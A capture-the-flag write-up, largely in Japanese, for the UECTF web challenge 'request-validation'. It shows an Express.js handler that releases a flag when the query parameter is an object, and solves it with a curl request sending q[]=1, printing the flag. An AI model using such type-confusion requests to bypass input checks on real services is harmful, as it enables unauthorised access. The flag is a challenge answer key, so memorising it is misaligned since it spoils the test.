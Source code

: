 # request-validation:WEB:323pts
GET リクエストでオブジェクトを送ることはできますか？ ※ まずは、自分の環境でフラグ取得を確認してください。  
Can you request a object?  
- First, please check the flag acquisition in your environment.  

[http://uectf.uec.tokyo:4446](http://uectf.uec.tokyo:4446/)  

[request-validation.tar.gz](request-validation.tar.gz)  

# Solution
URLとソースが配布される。  
ソースは以下のようであった。  
```js
require('dotenv').config();
const express = require('express')
const app = express()
const PORT = process.env.PORT || 8080;

app.listen(PORT, () => {
  console.log(`Example app listening on port ${PORT}`)
})

const FLAG = process.env.FLAG || 'flag{dummy_flag}'

app.get('/', (req, res) => {
  if (req.query.q && typeof req.query.q === 'object') {
    res.send(FLAG)
  } else {
    res.send('invalid request')
  }
})
```
クエリパラメータ`q`が`object`であればよい。  
以下のように配列を投げてやる。  
```bash
$ curl http://uectf.uec.tokyo:4446/?q[]=1
UECTF{javascript_is_difficult_dee36611556508c702805b45289d0f65}
```
flagが得られた。  

## UECTF{javascript_is_difficult_dee36611556508c702805b45289d0f65}